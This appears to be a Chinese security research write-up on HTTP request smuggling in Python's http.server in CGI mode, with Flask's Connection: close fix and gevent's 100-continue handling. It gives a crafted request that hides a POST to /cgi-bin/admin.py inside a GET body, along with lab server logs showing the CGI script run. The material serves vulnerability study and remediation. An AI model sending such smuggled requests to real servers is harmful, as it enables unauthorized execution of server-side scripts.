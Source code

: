 `CGIHTTPRequestHandler`也继承了`BaseHTTPRequestHandler `：测试后端执行以下命令：

```bash
python -m http.server --cgi 8001 -p "HTTP/1.1"
```

发送如下请求：

```bash
GET /files/ HTTP/1.1
Host: 192.168.17.139:8081
Content-Length: 62

POST /cgi-bin/admin.py HTTP/1.1
Host: 192.168.17.139:8081
```

响应如下，可以看到在`cgi`模式中，特定的情况下可走私产生`RCE`效果。

```python
Serving HTTP on :: port 8001 (http://[::]:8001/) ...
::ffff:192.168.17.139 - - [25/Jul/2024 21:06:49] "GET /files/ HTTP/1.1" 200 -
::ffff:192.168.17.139 - - [25/Jul/2024 21:06:49] "POST /cgi-bin/admin.py HTTP/1.1" 200 -
::ffff:192.168.17.139 - - [25/Jul/2024 21:06:49] command: C:\Users\xx\miniconda3\envs\pyt\python.exe -u D:\cgi-bin\admin.py ""
```

##### flask中的修复

部分常用框架如`flask`也扩展了`BaseHTTPRequestHandler`用于开发环境使用，可以看到`flask`中对于以上提到的走私问题做了修复，将`Connection`固定为`close`。

```python
class WSGIRequestHandler(BaseHTTPRequestHandler):  
    """A request handler that implements WSGI dispatching."""  
  
    server: BaseWSGIServer  
  
    @property  
    def server_version(self) -> str:  ## type: ignore  
        return self.server._server_version
```

```python
## Always close the connection. This disables HTTP/1.1  
## keep-alive connections. They aren't handled well by  
## Python's http.server because it doesn't know how to  
## drain the stream before the next request line.  
self.send_header("Connection", "close")  
self.end_headers()
```

#### 3.3 gevent中的请求走私问题

其处理未使用的数据时将调用`_discard`函数，而如果请求中带有`100-continue`请求头，则`self.socket`不为`None`，未被使用的数据将被作为新的请求包处理，产生走私。

```python
sock = self.socket if env.get('HTTP_EXPECT') == '100-continue' else None
chunked = env.get('HTTP_TRANSFER_ENCODING', '').lower() == 'chunked'

## Input refuses to read if the data isn't chunked, and there is no content_length

## provided. For 'Upgrade: Websocket' requests, neither of those things is true.

handling_reads = not self._connection_upgrade_requested()
self.wsgi_input = Input(self.rfile, self.content_length, socket=sock, chunked_input=chunked)


def _discard(self):
	if self._chunked_input_error:
```
